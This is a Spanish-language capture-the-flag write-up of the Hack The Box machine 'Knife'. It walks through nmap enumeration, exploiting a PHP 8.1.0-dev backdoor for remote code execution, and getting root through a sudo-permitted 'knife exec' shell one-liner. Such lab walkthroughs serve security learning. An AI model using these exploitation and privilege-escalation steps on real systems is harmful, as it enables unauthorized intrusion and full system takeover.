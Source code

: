 ```yaml
---
title: "Write Up - Validation"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/knife.png"
categories:
  - WriteUp
---
```



OS | LINUX
Desarrollado por | MrKN16H7
Dificultad | Fácil
Liberación | 22 Mayo 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.242 y luego con el comando nmap -sCV -p22,80 10.10.10.242 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
# Nmap 7.92 scan initiated Mon Nov  1 23:48:04 2021 as: nmap -p22,80 -sCV -O -oN NMAP knife.htb
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  1 23:48:22 2021 -- 1 IP address (1 host up) scanned in 17.24 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la wfuzz para buscar paginas ocultas y poder acceder a ellas.

Con el código fuente de la pagina y wfuzz no encontramos nada en particular, pero WhatWeb nos dice que la pagina está escrita en 8.1.0-dev e investigando nos damos cuenta que hay un exploit (backdoor y rce) en el github de [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce){:target="_blank"}

Utilizamos este exploit y obtenermos acceso al usuario

## 1° Shell

Al entrar con el Exploit nos damos cuenta que tenemos una terminal muy básica y no podemos tratar la TTY por lo que primero abrimos una shell reverse y luego realizamos un tratamiento de TTY ([](https://gist.github.com/s4vitar/b88fefd5d9fbbdcc5f30729f7e06826e#tratamiento-de-la-tty){:target="_blank"}) así podemos obtener la primera flag.

## 2° SHELL (root)

Ya dentro del usuario james vemos si tiene algún permiso como root con el comando sudo -l y nos damos cuenta que tiene con el comando knife y este no necesita escribir la password.

	sudo -l
	Matching Defaults entries for james on knife:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User james may run the following commands on knife:
		(root) NOPASSWD: /usr/bin/knife

Con esto vemos en GTFObins si hay algún script de escalamiento de privilegios y vemos que si lo hay, lo que nos permite obtener root y poder ver la 2° flag

	$ knife exec -E 'exec "/bin/sh"'
	# whoami
	root

![Racso](https://www.hackthebox.com/badge/image/159593)